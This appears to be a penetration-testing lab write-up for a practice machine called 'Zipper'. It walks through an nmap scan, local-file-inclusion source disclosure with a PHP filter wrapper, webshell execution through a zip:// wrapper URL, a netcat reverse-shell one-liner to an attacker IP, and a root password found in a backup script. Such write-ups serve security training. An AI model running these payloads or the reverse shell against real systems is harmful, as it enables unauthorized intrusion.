**Start 12:14 06-05-2025**

---
```
Scope:
192.168.145.229
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV zipper -sT -T5 --min-rate=5000 -Pn -vvvv -p-

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Zipper
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/TCP - HTTP

![](../../../assets/062fde56a96d71ab005bd37cbaa78b63.png)

I tried to upload a webshell and see what happens:

![](../../../assets/c9f0af77b0750402d219bdb338e007d8.png)

![](../../../assets/c5b3459f551746bae25bc40374c55711.png)

Let's boot up `burp` to see what's happening underneath.

![](../../../assets/543243ed1b7df28b06b4ca3b36d75187.png)

I don't see anything unusual happening to my request, however I notice the `/index.php?file=` parameter and instantly think to test it.

### Source Code Disclosure

I go on and start testing it:

```
php://filter/read=convert.base64-encode/resource=config
```

![](../../../assets/fd069793308ff174b009cae7313bcaf7.png)

![](../../../assets/ca974dc48b9ae974d7b057a33b91aba1.png)

We get a new endpoint called `/home.php`, let's check it's source code:

![](../../../assets/19a40b29a09f11d353c9b2f84149084f.png)

This gave a massive output, however the relevant part is found below:

![](../../../assets/0756549fe9cbe68a8e4ed957bbee86c6.png)

Judging from this script I deducted that the function would naturally be called `upload.php`:

![](../../../assets/b20dc2bb33b400faa6190aba03e8377f.png)

>[!success]
>Not gonna lie, I was pleasantly surprised

![](../../../assets/f003d8110bbfa15d3c6f14f1d8f568c8.png)

>[!note]
>So this points to a Zip Upload vulnerability. We can HIGHLY LIKELY exploit this using hte `zip://` PHP wrapper.

Since we know the path of the upload, and we've verified the zip file name (because we downloaded it) we can now put together the URL to get to our webshell:

```
http://zipper/index.php?file=zip://uploads/upload_1746527079.zip%23webshell
```

![](../../../assets/f852fa61731aba42813f1da8e4abd4be.png)

Hell yeah!

# Foothold
## Shell as www-data

From here I booted up `penelope.py` (I am really trying to familiarize myself with it) and used my favourite linux reverse shell:

```shell
busybox nc 192.168.45.183 443 -e bash
```

![](../../../assets/c91c8253d0bfd81297dbaead32e031e6.png)

And we got access!! EZ PZ

![](../../../assets/0e6dadaae6b20be85a87bf0222e8d9ef.png)

It appears there's no users here.

![](../../../assets/fd35c1cd95d5ffb454480d2245879c63.png)

`/etc/passwd` confirms this, so no `local.txt`?

![](../../../assets/e37ce397061c46729987fb93c2dcec31.png)

Sneaky bastards.

### local.txt

![](../../../assets/867a3d8413b06ceec492723ac004780e.png)

# Privilege Escalation
## Sometimes it's right in front of you

As always I start from `/` with my manual enum. I quickly find a `backup.sh` file owned by *root*:

![](../../../assets/7c7fc5aabf49f2a378a1c200f0bf1259.png)

![](../../../assets/b1231a3fef3bd9c3b1c304080c217aee.png)

![](../../../assets/71621ec7ff9bf57c9eaf4cb7af018d65.png)

I then started checking how to exploit this but one thing really stuck with me, the bottom part literally mentioned:

```
WildCardsGoingWild
```

What could this mean? Could this be the password to *root*?

![](../../../assets/cd3bf4c732acdaf7989f804deed5985f.png)

Lol, sure is.

### proof.txt

![](../../../assets/41e6961d842c95c39586c6fdd754d200.png)

---

**Finished 13:14 06-05-2025**

[^Links]: [[OSCP Prep]]

#zip #php_wrapper #SourceCodeDisclosure #enumeration 